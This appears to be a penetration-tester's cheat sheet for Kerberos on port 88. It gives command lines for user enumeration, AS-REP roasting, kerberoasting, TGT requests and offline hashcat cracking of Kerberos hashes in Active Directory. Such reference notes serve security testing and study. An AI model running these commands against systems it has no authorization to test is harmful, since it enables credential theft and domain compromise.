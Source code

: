 # KRB 88

{% hint style="info" %}
If error KRB\_AP\_ERR\_SKEW happen:

{% code overflow="wrap" %}
```bash
timedatectl set-ntp false
ntpdate <IP>
```
{% endcode %}
{% endhint %}

### **Enum User**

```bash
kerbrute userenum -d <Domain> --dc <IP DC> <LIST>
```

#### **AspeRoasting**

```bash
impacket-GetNPUsers '<NAME DOMAIN>/' -no-pass -usersfile users.txt -format hashcat -outputfile hash
```

#### **Kerberoasting**

```bash
impacket-GetUserSPNs <Name Machine>/<USER>:<PASS> -request
```

#### **TGT BruteForce**

```bash
impacket-getTGT '<DOMAIN>/<USERS>:<PWD>'
```

```bash
export KRB5CCNAME=..../user.chace
```

#### **CRACK KRB5 HASH**

```bash
hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
